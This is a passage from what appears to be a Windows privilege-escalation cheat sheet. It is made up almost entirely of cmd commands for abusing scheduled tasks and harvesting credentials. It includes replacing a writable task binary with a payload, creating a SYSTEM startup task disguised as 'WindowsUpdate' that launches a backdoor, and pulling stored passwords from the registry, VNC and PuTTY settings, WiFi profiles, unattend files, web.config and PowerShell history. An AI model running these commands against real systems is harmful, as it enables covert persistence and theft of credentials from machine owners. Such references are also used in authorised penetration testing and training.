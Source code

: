 ### Scheduled Tasks Abuse
```cmd
# Enumerate scheduled tasks
schtasks /query /fo LIST /v
schtasks /query /fo csv | findstr /v "INFO"

# Check task permissions
icacls C:\path\to\scheduled\task\binary.exe

# Check if task runs as SYSTEM
schtasks /query /tn "TaskName" /fo list /v

# Replace task binary if writable
copy payload.exe C:\path\to\scheduled\task\binary.exe

# Create new scheduled task (if privileges allow)
schtasks /create /sc onstart /tn "WindowsUpdate" /tr "C:\backdoor.exe" /ru system /f
```

### Credential Harvesting Advanced

#### Registry Credential Hunting
```cmd
# Comprehensive registry search
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v DefaultPassword

# VNC passwords
reg query "HKCU\Software\ORL\WinVNC3\Password"
reg query "HKLM\SOFTWARE\RealVNC\WinVNC4" /v password

# Putty sessions
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions"

# WiFi passwords
netsh wlan show profiles
netsh wlan show profile ProfileName key=clear
```

#### File-Based Credential Hunting
```cmd
# Search for configuration files
dir /s *pass* == *cred* == *vnc* == *.config*
findstr /si password *.txt *.xml *.config *.ini *.inf

# Common sensitive file locations
type "C:\sysprep.inf"
type "C:\sysprep\sysprep.xml"
type "C:\unattend.xml"  
type "C:\Windows\Panther\Unattend.xml"
type "C:\Windows\Panther\Unattend\Unattend.xml"

# IIS configuration
dir /s web.config
findstr /si connectionstring web.config

# PowerShell history
type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```
